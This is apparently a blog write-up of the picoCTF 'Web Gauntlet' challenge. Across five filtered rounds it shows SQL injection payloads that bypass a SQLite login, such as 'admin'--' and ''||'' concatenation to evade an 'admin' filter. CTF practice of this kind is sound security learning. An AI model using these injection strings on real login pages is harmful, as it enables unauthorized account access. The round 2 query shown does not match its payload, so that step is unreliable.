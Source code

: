 ```yaml
---

title: "Web Gauntlet"  
date: "2024-10-16"  
thumbnail: "/assets/img/thumbnail/Web_Gauntlet.png"

---
```


# Web Gauntlet

---

**Challenges Difficulty: Medium**  
**Category: Web Exploitation**

## Introduction  
This series focuses on the fundamentals of SQL Injection vulnerability. Check out [A03:2021-Injection](https://owasp.org/www-community/attacks/SQL_Injection).

## WALKTHROUGH  
This challenge is from the picoCTF 2020 Mini-Competition.

#### Hints:
1. You are not allowed to log in with valid credentials.
2. Write down the injections you use in case you lose your progress.
3. For some filters, it may be hard to see the characters. Always (always) look at the raw hex in the response.
4. SQLite is used.
5. If your cookie keeps getting reset, try using a private browser window.

![Challenge 1](/assets/img/posts/post-2/chal.png)

The challenge gives us two links as shown above. The first one is a login page, and the second shows us what the round filters.  
For the first round, it filters out **or**, so we can still use **--** to comment out the rest of the query.

---

**Username:** `admin'--`  
**Password:** anything, e.g., `123`  
Then the query should look like this:

```sql
SELECT * FROM users WHERE username='admin'-- AND password='123'
```

---

Now we are in round 2, and it filters out the following: **or**, **like**, **=**, and **--**.  
We shall try to use an alternative method, like **union**, to continue.

---

**Username:** `admin'union select * from users where '1;`  
**Password:** anything, e.g., `123`  
Then the query should look like this:

```sql
SELECT * FROM users WHERE username='admin'; AND password='123'
```

---

In round 3, it filters **or**, **=**, **like**, **>**, **<**, and **--**. We can still comment using **;**.

---

**Username:** `admin';`  
**Password:** anything, e.g., `123`  
Then the query should look like this:

```sql
SELECT * FROM users WHERE username='admin'; AND password='123'
```

---

Round 4 is a little more creative as it filters out **or**, **=**, **like**, **>**, **<**, **--**, and **admin**.  
Admin?? 🙂 Don’t panic, no problem! 😅  
In SQL, the `||` operator is commonly used for string concatenation, especially in databases like SQLite. If the application’s underlying SQL query uses this operator correctly, entering `ad'||'min'` would result in the following behavior:

```sql
SELECT * FROM users WHERE username='admin';
```

And this is what we want.
---

**Username:** `ad'||'min';`  
**Password:** anything, e.g., `123`  
Then the query should look like this:

```sql
SELECT * FROM users WHERE username='admin'; AND password='123'
```

---

We are in the final round—good job! ✌  
In the final round, it filters **and**, **=**, **like**, **>**, **<**, **--**, **union**, and **admin**, but we will use the same method as in the previous round.

---

**Username:** `ad'||'min';`  
**Password:** anything, e.g., `123`  
Then the query should look like this:

```sql
SELECT * FROM users WHERE username='admin'; AND password='123'
```

Congrats! You won! Check out `filter.php`.  
![solution](/assets/img/posts/post-2/sol.png)

Many thanks to [onealmond](https://github.com/onealmond) as his write-up helped me a lot in solving this challenge.

---